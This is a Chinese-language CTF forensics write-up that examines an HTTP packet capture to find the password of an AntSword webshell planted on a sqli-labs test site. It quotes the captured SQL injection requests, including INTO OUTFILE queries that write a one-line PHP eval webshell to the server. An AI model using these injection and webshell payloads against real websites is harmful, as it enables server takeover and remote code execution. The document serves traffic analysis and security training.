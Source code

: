 ## SSW

### SmallSword\_1

> 题目内容：连接蚁剑的正确密码是******\_\_******?（答案示例：123asd）

既然题目说明蚁剑，那么我们直接过滤http流，可以看到是一个`sqlilab`的网站，我们查看注入的语句，可以看到进行了写文件操作，将`@@basedir`等结果写入到2.txt。  
[![](assets/1702520939-1c2ba2a5d74289d441936160c4b00960.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213163019-d9aebf42-9991-1.png)

```plain
GET /sqlii/Less-7/index.php?id=-1')) union select 1,@@basedir,@@datadir into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\2.txt" --  HTTP/1.1
```

并且请求了2.txt可以看到响应内容如下。  
[![](assets/1702520939-6d1239d1214a5326c1dcc10578c19c58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213163047-ea18edee-9991-1.png)  
继续往下看，关注2988和3075这两个数据包，内容分别是：

```plain
# 2988
GET /sqlii/Less-7/index.php?id=-1')) union select 1,2,"<?php @eval($_POST["6ea280898e404bfabd0ebb702327b18f"]);?>" into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\1.php" HTTP/1.1

# 3075
GET /sqlii/Less-7/index.php?id=-1')) union select 1,2,"<?php @eval($_POST["6ea280898e404bfabd0ebb702327b18f"]);?>" into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqlii\\Less-7\\info1.php" HTTP/1.1
```
